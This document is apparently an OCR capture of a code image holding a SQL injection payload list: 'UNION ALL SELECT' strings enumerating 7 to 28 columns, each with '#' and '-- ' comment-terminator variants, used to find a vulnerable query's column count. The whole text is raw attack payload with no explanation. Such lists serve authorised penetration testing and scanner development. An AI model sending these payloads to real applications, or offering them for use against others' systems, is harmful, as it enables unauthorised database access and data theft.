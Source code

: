 ```
UNION ALL SELECT 1,2,3,4,5,6,7#
UNION ALL SELECT 1,2,3,4,5,6,7-- 
UNION ALL SELECT 1,2,3,4,5,6,7,8
UNION ALL SELECT 1,2,3,4,5,6,7,8#
UNION ALL SELECT 1,2,3,4,5,6,7,8-- 
UNION ALL SELECT 1,2,3,4,5,6,7,8,9
UNION ALL SELECT 1,2,3,4,5,6,7,8,9#
UNION ALL SELECT 1,2,3,4,5,6,7,8,9-- 
UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10
UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10#
UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10-- 
UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11
UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11#
UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11-- 
UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12
UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12#
UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12-- 
UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13
UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13#
UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13-- 
UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14
UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14#
UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14-- 
UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15
UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15#
UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15-- 
UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16
UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16#
UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16-- 
UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17
UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17#
UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17-- 
UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18
UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18#
UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18-- 
UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19
UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19#
UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19-- 
UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20
UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20#
UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20-- 
UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21
UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21#
UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21-- 
UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22
UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22#
UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22-- 
UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23
UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23#
UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23-- 
UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24
UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24#
UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24-- 
UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25
UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25#
UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25-- 
UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26
UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26#
UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26-- 
UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27
UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27#
UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27-- 
UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28
```